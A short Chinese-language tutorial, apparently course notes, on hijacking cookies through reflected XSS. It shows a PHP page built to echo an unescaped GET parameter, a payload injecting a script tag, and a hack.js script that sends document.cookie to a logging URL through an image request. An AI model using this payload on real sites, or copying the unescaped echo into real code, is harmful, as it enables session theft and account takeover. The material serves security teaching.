


运用XSS实现Cookie劫持<br />[https://www.icourse163.org/spoc/university/PPSUC#/c](https://www.icourse163.org/spoc/university/PPSUC#/c)
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        document.cookie = "qiluo=True"; // 该网站源码生成了"qiluo=True"的Cookie
    </script>
    <?php 
    ini_set("display_errors", 0);
    $str = $_GET["name"]; // 获取get传参
    echo "<h2 align=center>欢迎用户".$str."</h2>"; //这里可以xss注入
    ?>
</body>
</html>
```
```
?name=<script%20src="./hack.js"></script> //payload植入恶意的js脚本
```

<br />hack.js脚本
```javascript
var img = document.createElement("img"); //创建img对象
img.src = "http://127.0.0.1/log.php?"+encodeURI(document.cookie); //为img的src属性指向远程服务器并get传递被劫持网站的cookie
document.body.appendChild(img); // 放入劫持网站执行js恶意脚本
```
在远程服务器的log日志中可以看到传递的Cookies<br />
